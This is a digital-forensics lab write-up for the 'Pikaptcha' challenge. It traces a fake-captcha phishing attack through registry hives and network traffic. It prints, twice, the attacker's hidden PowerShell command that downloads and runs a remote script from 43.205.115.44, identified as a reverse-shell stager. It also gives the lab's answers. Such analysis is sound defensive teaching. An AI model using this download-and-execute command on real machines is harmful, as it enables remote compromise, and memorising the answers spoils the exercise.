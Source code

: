 # Pikaptcha

![image](https://github.com/user-attachments/assets/e29f4a11-7ca9-4957-881f-859e6d749c7a)


> Write-up author: jon-brandy

## Lessons Learned:
1. Using registry explorer to load user's registry hive.
2. Reviewing malicious powershell that acts as a downloader.

## SCENARIO:
<p align="justify">Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.</p>

## STEPS:
1. In this case, we're tasked to investigate a recent phising attack.
2. A person named Happy Grunwald contacted Alonzo, a system administrator, regarding an issue with downloading the latest version of Microsoft Office.
3. Happy reported that he received an email instructing him to update Microsoft Office via a link. After clicking the link, he was prompted to solve a CAPTCHA, but no download page appeared afterward.
4. Recognizing this as a potential phishing attempt, Alonzo became suspicious of the attacker’s tactics. He contacted the security team, who promptly isolated the victim’s machine and provided us with network traffic data and endpoint artifacts for analysis.

![image](https://github.com/user-attachments/assets/8e6a4129-e597-4e74-8094-b4c111b3cf51)


> 1ST QUESTION --> ANS: `powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`

![image](https://github.com/user-attachments/assets/a78977c0-5c0a-48a5-8b36-473255407f4a)


5. We're given many registry hives and prefetch folder, it's kinda painful to analyze windows registry hives without knowing the context and location of what is our interest.
6. To review recently executed command, we can start analyzing from `RunMRU` registry key for **happy grunwald** user.
7. To analyze the registry hives I used `registry explorer`. But actually you can use `registry viewer` or just mount it using `winregfs`. To load the registry hive for user **happy grundwald**, simply load the `NTUSER.DAT` of **happy grundwald**.

![image](https://github.com/user-attachments/assets/7858c1ff-0032-44dd-9f25-eaa84c5689e5)


> RESULT IN REGISTRY EXPLORER

![image](https://github.com/user-attachments/assets/72e2be4e-ba96-4edc-a1ca-1f5427eb33c6)



8. Again, to reduce the pain by traverse the folder manually, instead we can use the search bar to find **RunMRU**.

![image](https://github.com/user-attachments/assets/bc3c7289-8ebd-4375-99fb-885d9f3873dc)


9. Notice that we found a powershell command execution from a remote source. This is a hint for a malicious activity.

> Malicious Powershell Script

```pwsh
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"\1
```

#### NOTES REGARDING THE POWERSHELL EXECUTION FOUND:

`-NoP` flag (No Profile), is used to prevent powershell from loading the user's profile scripts (it can be used to reduce startup time). `-Noni` (Non-Interactive) flag is used to run the powershell script in a non-interactive mode. `-W hidden` flag is used to hides the powershell window, thus making the executiion invisible to the user.

The biggest red flag is `-Exec Bypass`, this flag used to override the system's execution policy, allowing the script to run regardless of any policy settings that might prevent it. This flag is actually is the biggest red flag if it is executed by non legitimate user.

`-Command` flag is used to specify the powershell command, `IEX` (Invoke Expression) this cmdlet is used to evaluate or runs the expression passed to it. `(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')` this part creates a new web client object to download the script from the remote server and this script content is passed to IEX which runs it in the current powershell session.

In short, this powershell command is used to download a malicious powersell script file --> `office2024install.ps1`. 


11. Anyway if we correlate this with cyber kill chain stages, this stage is at the **installation** stage --> stage where the attacker tried to gain persistence.
12. Great! Simple as that now we identified the full command that was run to download and execute the stager.


> 2ND QUESTION --> ANS: `2024-09-23 05:07:45`

![image](https://github.com/user-attachments/assets/ca12a9cd-dee8-4948-9431-11f2e50dd65e)

13. Again, we can identify the timestamp of the execution at the `registry explorer`. It is shown clear.

![image](https://github.com/user-attachments/assets/4f95b2d4-c53a-4bc7-a3cd-6643fde35cab)


> 3RD QUESTION --> ANS: `579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de`

![image](https://github.com/user-attachments/assets/672f5b38-997b-4467-a94d-1db9dc5a9676)


14. Let's shift our focus to the captured network traffic to exfitrate the powershell script, because we cannot download the powershell script from registry explorer, because **registry hive actually just stored a configuration data not actual files**.

> Wireshark

![image](https://github.com/user-attachments/assets/8976e815-ee06-417d-99f1-cb244dd43177)


15. Actually now it's much easier, because we already identified the threat actor IP and the malicious file downloaded from the remote server. We can simply export the objects from wireshark.

![image](https://github.com/user-attachments/assets/72ee81ba-eef1-4c43-a545-2037e7ea1c53)


16. To see the script contens, simply follow the related packet stream.
17. Based from the result, you can see that it contains an encoded powershell command.

![image](https://github.com/user-attachments/assets/d04f43b8-0857-4ab7-970b-2cbeb3d19cb4)

> DECODED VALUES

![image](https://github.com/user-attachments/assets/4150bf57-4c19-453b-a7e7-69ac31805a2b)

18. Interesting! Not a geek in powershell script, but `System.Net.Sockets.TCPClient` syntax is used to send and receive data.
19. So if we correlate this again to next stages in cyber kill chain, current stage is **Command and Control**, this could be the backdoor that the attacker tried to use then.
20. Searching on the internet regarding reverse shell payload for powershell, found this github gist:

![image](https://github.com/user-attachments/assets/d88123eb-c241-4bbf-96c1-ea476eb26941)

21. It is exactly the same! Anyway let's get the hash IOC.

> Hash IOC

![image](https://github.com/user-attachments/assets/cf656d59-2ab0-4dc7-bced-96f7bfc3fc23)


> 4TH QUESTION --> ANS: 6969

![image](https://github.com/user-attachments/assets/a0bf7148-2f6b-422d-bffb-22e92ccbb706)


22. The port is identified previously as we analyzed the C2 script. The port is `6969`.


> 5TH QUESTION --> ANS: 403

![image](https://github.com/user-attachments/assets/4d9b46be-84f4-4669-aa44-9be1ce7f280b)

23. Now to identify how many seconds was the reverse shell connection established between C2 and the victim's workstation, we can start by reviewing the next TCP protocol which communicated on port 6969.

![image](https://github.com/user-attachments/assets/060d3ba2-063c-4b94-97cd-5c98be7ed4c7)


23. Instead calculating it manually, I used a library named **datetime** from python.

> SCRIPT TO CALCULATE THE TIMESTAMP

```py
from pwn import *
import os
from datetime import datetime

os.system('clear')

st = datetime.strptime("05:07:48", "%H:%M:%S")
end = datetime.strptime("05:14:31", "%H:%M:%S")

diff = (end - st).total_seconds()
log.success(f'RESULT --> {diff}')
```

> RESULT

![image](https://github.com/user-attachments/assets/d636c4d9-b56e-4e2b-a5ed-c033f108a315)


> 6TH QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/13f0b3f6-8563-4606-b356-4dd0d806f481)


# IMPORTANT LINKS:

```

```
